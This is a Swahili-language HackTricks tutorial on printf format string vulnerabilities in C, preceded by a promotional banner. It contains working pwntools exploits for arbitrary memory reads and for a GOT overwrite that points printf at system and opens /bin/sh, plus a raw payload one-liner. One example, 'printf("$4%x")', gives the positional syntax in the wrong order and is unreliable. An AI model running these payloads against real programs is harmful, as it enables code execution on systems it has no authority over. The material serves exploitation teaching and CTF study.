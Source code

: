 # Strings za Umbizo

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

* Je, unafanya kazi katika **kampuni ya usalama wa mtandao**? Unataka kuona **kampuni yako ikionekana kwenye HackTricks**? au unataka kupata upatikanaji wa **toleo jipya la PEASS au kupakua HackTricks kwa PDF**? Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* Pata [**swagi rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* **Jiunge na** [**💬**](https://emojipedia.org/speech-balloon/) [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **nifuata** kwenye **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwenye** [**repo ya hacktricks**](https://github.com/carlospolop/hacktricks) **na** [**repo ya hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Taarifa Msingi

Katika C **`printf`** ni kazi inayoweza kutumika kwa **kusafirisha** string fulani. **Parameter ya kwanza** ambayo kazi hii inatarajia ni **maandishi ghafi yenye formatters**. **Parameta zinazofuata** zinatarajiwa kuwa **thamani** za **kuchukua nafasi** ya **formatters** kutoka kwenye maandishi ghafi.

Udhaifu unaonekana wakati **maandishi ya muhusika yanatumika kama hoja ya kwanza** kwa kazi hii. Muhusika ataweza kutengeneza **kuingia maalum kwa kudhuru** uwezo wa **strings za umbizo za printf** kusoma na **kuandika data yoyote kwenye anwani yoyote (inayoweza kusomwa/kuandikwa)**. Hivyo kuweza **kutekeleza nambari za aina yoyote**. 

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Mifano:**

* Mfano wa hatari:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Matumizi ya Kawaida:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Kwa Vipengele Vilivyopotea:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **Kupata Pointers**

Muundo wa **`%<n>$x`**, ambapo `n` ni nambari, inaruhusu kuelekeza printf kuchagua parameter ya n (kutoka kwenye stack). Kwa hivyo, ikiwa unataka kusoma param ya 4 kutoka kwenye stack ukitumia printf unaweza kufanya hivi:
```c
printf("%x %x %x %x")
```
Na ungesoma kutoka kiparamita ya kwanza hadi ya nne.

Au unaweza kufanya:
```c
printf("$4%x")
```
na soma moja kwa moja ya nne.

Gundua kwamba muhalifu anadhibiti parameter ya `pr`**`intf`**, ambayo kimsingi inamaanisha kwamba mchango wake utakuwa kwenye stack wakati `printf` inaitwa, ambayo inamaanisha kwamba anaweza kuandika anwani maalum za kumbukumbu kwenye stack.

{% hint style="danger" %}
Muhalifu anayedhibiti mchango huu, ataweza **kuongeza anwani za kiholela kwenye stack na kufanya `printf` kuzifikia**. Katika sehemu inayofuata itaelezwa jinsi ya kutumia tabia hii.
{% endhint %}

## **Kusoma Kiholela**

Inawezekana kutumia mfumo wa **`$n%s`** ili kufanya **`printf`** ipate **anwani** iliyoko katika **nafasi ya n**, ikifuatiwa na **kuichapisha kana kwamba ni string** (kuichapisha hadi 0x00 inapatikana). Kwa hivyo ikiwa anwani ya msingi ya binary ni **`0x8048000`**, na tunajua kwamba mchango wa mtumiaji unaanza katika nafasi ya 4 kwenye stack, inawezekana kuchapisha mwanzo wa binary na:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Tafadhali kumbuka huwezi kuweka anwani 0x8048000 mwanzoni mwa matokeo kwa sababu string itaongeza 0x00 mwishoni mwa anwani hiyo.
{% endhint %}

## **Andika Kiholela**

Mfumo **`$<num>%n`** **huandika** **idadi ya byte zilizoandikwa** kwenye **anwani iliyotajwa** katika paramu ya \<num> kwenye stack. Ikiwa mshambuliaji anaweza kuandika herufi nyingi kama anavyotaka na printf, ataweza kufanya **`$<num>%n`** iandike nambari ya kiholela kwenye anwani ya kiholela.

Bahati nzuri, ili kuandika nambari 9999, si lazima kuongeza "A" 9999 kwenye matokeo, badala yake inawezekana kutumia mfumo **`%.<num-andika>%<num>$n`** kuandika nambari **`<num-andika>`** kwenye **anwani inayoelekezwa na nafasi ya `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Hata hivyo, ni vyema kufahamu kwamba kawaida ili kuandika anwani kama vile `0x08049724` (ambayo ni nambari KUBWA kuandika kwa mara moja), **inatumika `$hn`** badala ya `$n`. Hii inaruhusu kuandika **Bayti 2 tu**. Kwa hivyo, hatua hii inafanywa mara mbili, mara moja kwa Bayti 2 za juu za anwani na mara nyingine kwa zile za chini.

Hivyo, udhaifu huu huruhusu kuandika **chochote katika anwani yoyote (kuandika kiholela)**.

Katika mfano huu, lengo ni **kubadilisha** **anwani** ya **kazi** katika **taarifa ya GOT** ambayo itaitwa baadaye. Ingawa hii inaweza kutumika katika mbinu zingine za kuandika kiholela kutekeleza:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Tutakuwa **tukibadilisha** **kazi** ambayo **inapokea** **vigezo vyake** kutoka kwa **mtumiaji** na **kuielekeza** kwa kazi ya **`system`**.\
Kama ilivyotajwa, ili kuandika anwani, kawaida hatua 2 zinahitajika: Kwanza unahitaji **kuandika Bayti 2** za anwani na kisha nyingine 2. Kufanya hivyo, **`$hn`** hutumiwa.

* **HOB** inaitwa kwa Bayti 2 za juu za anwani
* **LOB** inaitwa kwa Bayti 2 za chini za anwani

Kisha, kutokana na jinsi mnyambuliko wa muundo unavyofanya kazi, unahitaji **kuandika kwanza ile ndogo** kati ya \[HOB, LOB\] na kisha nyingine.

Ikiwa HOB < LOB\
`[anwani+2][anwani]%.[HOB-8]x%[kielelezo]\$hn%.[LOB-HOB]x%[kielelezo+1]`

Ikiwa HOB > LOB\
`[anwani+2][anwani]%.[LOB-8]x%[kielelezo+1]\$hn%.[HOB-LOB]x%[kielelezo]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Kigezo cha Pwntools

Unaweza kupata kigezo cha kuandaa shambulio kwa aina hii ya udhaifu katika:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Au mfano huu wa msingi kutoka [**hapa**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Matumizi ya Strings za Umbizo kwa BOF

Inawezekana kutumia vitendo vya kuandika kutoka kwa udhaifu wa stringi ya umbizo ili **kuandika kwenye anwani za steki** na kutumia udhaifu wa aina ya **kujaza ujazo**.

## Mifano na Marejeo Mengine

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, hakuna relro, hakuna canary, nx, hakuna pie, matumizi ya msingi ya strings za umbizo kufichua bendera kutoka kwa steki (hakuna haja ya kubadilisha mtiririko wa utekelezaji)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, hakuna canary, nx, hakuna pie, stringi ya umbizo kubadilisha anwani ya `fflush` na kazi ya ushindi (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, hakuna canary, nx, hakuna pie, stringi ya umbizo kuandika anwani ndani ya main katika `.fini_array` (hivyo mtiririko unarudi mara 1 zaidi) na kuandika anwani ya `system` katika jedwali la GOT ikionyesha `strlen`. Wakati mtiririko unarudi kwa main, `strlen` inatekelezwa na matokeo ya mtumiaji na ikionyesha `system`, itatekeleza amri zilizopitishwa.
